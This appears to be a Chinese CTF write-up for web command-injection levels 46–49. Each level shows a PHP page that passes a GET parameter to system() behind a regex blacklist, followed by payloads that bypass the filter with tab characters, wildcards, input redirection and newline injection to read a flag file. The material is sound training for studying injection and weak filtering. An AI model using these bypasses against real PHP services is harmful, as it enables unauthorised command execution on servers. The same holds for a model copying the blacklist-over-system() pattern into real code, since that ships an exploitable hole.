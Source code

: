 ## web46（%09绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
过滤了通配符、$，这次使用制表符%09绕过空格
payload：/?c=tac%09fla?????%0a
其他姿势：/?c=tac<fla''g.php%0a   /?c=tac<fla''g.php||
## web47（%09绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
同上
payload：/?c=tac%09fla?.php%0a
## web48（%09绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
同上
payload：/?c=tac%09fla?.php%0a
## web49（%09绕过）
```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```